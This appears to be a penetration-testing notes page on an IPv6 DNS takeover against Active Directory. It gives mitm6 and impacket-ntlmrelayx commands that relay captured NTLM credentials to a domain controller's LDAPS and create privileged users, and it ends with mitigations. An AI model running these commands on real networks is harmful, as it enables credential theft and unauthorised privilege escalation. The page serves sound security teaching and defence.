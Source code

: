 # IPv6 DNS Takeover

This attack takes advantage of machines utilizing IPv4 while still having IPv6 active in their network adapter properties. When a machine is configured in this way, one question comes to mind. Who is the DNS for IPv6? Most of the time, nobody.

With this misconfiguration, an attacker can listen for any incoming IPv6 traffic, declaring themselves as the DNS for IPv6. Through this process, an attacker can gain authentication to the Domain Controller with LDAP (Lightweight Directory Access Protocol) or SMB (Server Message Block).





## IPv6 DNS Takeover attack

For the installation of the tool follow this steps:

{% code title="mitm6 installation" overflow="wrap" %}
```bash
cd /opt
sudo git clone https://github.com/dirkjanm/mitm6
sudo pipx install .
```
{% endcode %}

{% code title="Kali installation cmd" %}
```bash
sudo apt install mitm6
```
{% endcode %}

### Setup and run Ntlmrelayx

Before starting `mitm6` , we have to configure and run the relay which will attempt to access the DC's LDAP service with the capted credentials.

{% code overflow="wrap" %}
```bash
impacket-ntlmrelayx -6 -t ldaps://DC_IP -wh FAKE.DOMAIN.local -l lootme

# -6: Listen on both IPv6 and IPv4
# -t: Target to relay the credentials to, can be an IP, hostname or URL like domain\username@host:port
# -l: Loot directory in which gathered loot such as SAM dumps will be storedbash (in our local machine)
# -wh: Enable serving a WPAD file for Proxy Authentication attack, setting the proxy host to the one supplied.
```
{% endcode %}

### Run mitm6 tool

Once we have started the relay, we can start the mitm6 tool which simulate a Fake IPv6 DNS.

```bash
sudo mitm6 -d DOMAIN
```



### Check the results

If the attack will successfull we would have our loot directory with all data.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### User creations

When a victim user login into his machine, the tool `mitm6` will try to create a user with more privilege.

For the information check the output of the tool when a user loggins.

<figure><img src="../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Mitigation

### Limits the IPv6 by rule

Disable IPv6 entirely may have unwanted side effects. Setting the following predefined rules to Block instead of Allow prevents the attack from working:

* (Inbound) Core Networking - **Dynamic Host Configuration Protocol for IPv6** (**DHCPV6-In**)
* (Inbound) Core Networking - **Router Advertisement** (**ICMPv6-In**)
* (Outbound) Core Networking - **Dynamic Host Configuration Protocol for IPv6** (**DHCPV6 - Out**)

### Disable WPAD

If WPAD is not in use internally, **disable it** via Group Policy and by disabling the **WinHttpAutoProxySvc service**

### Make LDAP secure by attack

Relaying to LDAP and LDAPS can only be mitigated by **enabling** both **LDAP signing** and LDAP **channel binding**.





